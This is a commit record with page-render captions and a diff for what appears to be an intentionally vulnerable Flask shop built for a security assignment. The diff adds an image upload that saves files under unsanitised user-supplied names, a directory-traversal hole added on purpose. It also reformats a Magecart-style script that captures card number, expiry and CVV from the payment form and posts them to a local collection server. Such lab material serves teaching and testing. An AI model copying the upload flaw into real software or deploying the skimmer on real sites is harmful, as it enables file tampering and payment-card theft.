

Before and after one commit to House-Fish/coti_assignment, a Flask app: page /product/1 in a window 1280 px wide. Shown: the part 676-1083 px from the top of the page, without its empty margins (598-1238 px from the left). Before the commit the page ends 997 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
feat: add vuln directory traversal image upload

```diff
--- a/ecommerce/app.py
+++ b/ecommerce/app.py
@@ -6,9 +6,13 @@ import logging
 from logging.handlers import RotatingFileHandler
 import os
 from datetime import datetime
+import os
+
+UPLOAD_FOLDER = 'static/images/reviews'
 
 app = Flask(__name__)
 app.config['SECRET_KEY'] = 'your-secret-key'
+app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
 app.jinja_env.globals.update(min=min)
 
 # Initialize LoginManager
@@ -161,17 +165,27 @@ def product_detail(product_id):
     if not product:
         return redirect(url_for('index'))
 
+    app.logger.info(f'Product viewed: {product["name"]}')
+
     if product_id not in reviews:
         reviews[product_id] = []
 
     if request.method == 'POST':
         review = request.form.get('review')
-        print("DEBUG::::", review)
+        image_path = None
+
         if review:
-            reviews[product_id].append(review)
             app.logger.info(f'New review added for product {product_id}: {review}')
 
-    app.logger.info(f'Product viewed: {product["name"]}')
+        #image upload
+        if 'image' in request.files:
+            image = request.files['image']
+            if image and image.filename != '':
+                image_path = os.path.join(app.config['UPLOAD_FOLDER'], image.filename).replace('\\', '/')
+                image.save(image_path)
+                app.logger.info(f'Image uploaded for product {product_id}: {image.filename}')
+
+        reviews[product_id].append({'text': review, 'image': image.filename})
     return render_template('product_detail.html', product=product, reviews=reviews[product_id])
 
 
--- a/ecommerce/templates/product_detail.html
+++ b/ecommerce/templates/product_detail.html
@@ -97,7 +97,12 @@
                     {% if reviews %}
                         <ul class="list-group">
                             {% for review in reviews %}
-                            <li class="list-group-item">{{ review|safe }}</li>
+                            <li class="list-group-item">
+                                <p>{{ review.text, review.image}}</p>
+                                {% if review.image %}
+                                <img src="{{ url_for('static', filename='images/reviews/' + review.image) }}" class="img-fluid mt-2" alt="Review Image">
+                                {% endif %}
+                                </li>
                             {% endfor %}
                         </ul>
                     {% else %}
@@ -106,10 +111,14 @@
                 </div>
 
                 <!-- Review form -->
-                <form method="POST" action="{{ url_for('product_detail', product_id=product.id) }}">
+                <form method="POST" action="{{ url_for('product_detail', product_id=product.id) }}" enctype="multipart/form-data">
                     <div class="mb-3">
                         <label for="review" class="form-label">Leave a Review</label>
                         <textarea class="form-control" id="review" name="review" rows="3" required></textarea>
+                    </div>
+                    <div class="mb-3">
+                        <label for="image" class="form-label">Upload Image</label>
+                        <input class="form-control" type="file" id="image" name="image">
                     </div>
                     <button type="submit" class="btn btn-primary">Submit Review</button>
                 </form>
--- a/magecart-server/PAYLOADS/payload.txt
+++ b/magecart-server/PAYLOADS/payload.txt
@@ -1 +1 @@
-window.onload = function () { const paymentForm = document.querySelector('form[action="/process_payment"]'); if (paymentForm) {paymentForm.addEventListener('submit', (e) => {e.preventDefault(); const cardNo = document.getElementById('card_number'); const cardExp = document.getElementById('card_expiry'); const cardCvv = document.getElementById('card_cvv'); console.log(JSON.stringify({number: cardNo.value,expiry: cardExp.value,cvv: cardCvv.value}));fetch('http://localhost:8888/store', {method: 'POST',headers: {'Content-Type': 'application/json'},body: JSON.stringify({number: cardNo.value,expiry: cardExp.value,cvv: cardCvv.value})}).then(() => {paymentForm.submit(); }).catch((err) => {console.log(err);})})}}
+window.onload = function () { const paymentForm = document.querySelector('form[action="/process_payment"]'); if (paymentForm) { paymentForm.addEventListener('submit', (e) => { e.preventDefault(); const cardNo = document.getElementById('card_number'); const cardExp = document.getElementById('card_expiry'); const cardCvv = document.getElementById('card_cvv'); console.log(JSON.stringify({ number: cardNo.value, expiry: cardExp.value, cvv: cardCvv.value })); fetch('http://localhost:8888/store', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ number: cardNo.value, expiry: cardExp.value, cvv: cardCvv.value }) }).then(() => { paymentForm.submit(); }).catch((err) => { console.log(err); }) }) } }
```
